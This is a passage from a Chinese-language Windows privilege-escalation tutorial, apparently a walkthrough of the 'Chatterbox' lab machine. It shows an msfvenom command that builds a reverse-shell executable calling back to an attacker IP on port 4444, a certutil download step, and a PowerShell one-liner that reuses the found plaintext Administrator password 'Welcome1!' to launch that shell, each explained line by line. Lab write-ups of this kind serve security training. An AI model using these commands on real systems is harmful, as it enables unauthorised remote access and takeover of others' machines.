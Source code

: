 运行winPEAS后，会注意到它找到了用户Alfred的AutoLogon凭据。该密码可能也适用于管理员用户。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791964-34.webp)

由于无法通过RDP或其他方法进行测试，必须使用PowerShell自动化实用程序。这将允许攻击者在另一个用户的上下文中运行脚本。

第一步是使用MSFvenom创建一个反向shell。

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f exe > shell.exe
```

接下来，必须使用certutil命令将shell.exe下载到Chatterbox。记得设置服务器来托管文件。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791964-35.webp)

使用与MSFvenom payload相同的端口启动Netcat。接下来，运行以下PowerShell命令以获取管理员权限的反向shell。

```
powershell -c "$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('Administrator', $password);Start-Process -FilePath "shell.exe" -Credential $creds"
```

上面的参数命令含义如下:

- powershell -c:: 启动一个PowerShell会话并执行以下命令

- ```bash
  $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
  ```

- 此行将$password变量设置为密码'Welcome1!'的安全字符串表示。ConvertTo-SecureString命令用于将明文密码转换为安全字符串。-AsPlainText参数指定密码以明文形式提供，并且-Force参数确保转换在不提示确认的情况下执行。

- ```bash
  $creds = New-Object System.Management.Automation.PSCredential('Administrator', $password);
  ```

- 此行使用New-Object命令创建一个名为$creds的新PSCredential对象。PSCredential对象表示一组安全凭据，包括用户名和密码。在这种情况下，用户名是'Administrator'，密码是存储在$password变量中的安全字符串。

- ```bash
  Start-Process -FilePath "shell.exe" -Credential $creds
  ```

- 此行使用Start-Process命令启动一个新进程。它启动名为"shell.exe"的可执行文件。-Credential参数指定在运行进程时要使用的凭据，$creds包含在前一步中创建的PSCredential对象，其中包括用户名和密码。总之，此PowerShell命令设置一个安全密码，使用用户名'Administrator'和安全密码创建一组凭据，然后使用这些凭据启动反向shell。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791964-36.webp)

现在已经提升了权限到管理员级别。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-37.webp)

有时凭据会以明文形式保存，并且如果它们被重新用于其他服务或用户，可以用来提升权限。
  ```